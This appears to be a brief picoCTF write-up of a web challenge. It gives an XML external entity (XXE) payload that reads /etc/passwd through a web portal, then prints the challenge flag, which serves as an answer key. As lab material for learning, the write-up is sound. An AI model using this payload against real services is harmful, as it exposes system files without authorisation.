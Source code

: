 The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:50946/)

Hints: XML external entity Injection


# Solución 

````
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
	<data><ID>
		&xxe;
	</ID></data>

picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}


```
